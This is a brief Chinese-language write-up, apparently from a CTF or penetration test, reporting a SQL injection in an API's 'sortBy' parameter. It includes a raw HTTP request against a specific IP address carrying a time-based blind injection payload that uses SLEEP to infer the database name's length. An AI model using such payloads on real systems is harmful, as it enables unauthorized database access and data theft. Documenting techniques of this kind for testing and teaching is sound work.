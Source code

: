![image-20250903233309166](images/image-20250903233309166.png)

### 发现 **/api/developer_utils/sorted_query **可以接受 **sortby** 的传参

### 赞美cursor

#### 接下来就是数据库长度手工盲注

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 91

{"query":"\u6fc0\u5149","sortBy":"name,IF(LENGTH(DATABASE())=9,SLEEP(20),1)","order":"asc"}
确定数据库名称是9位

```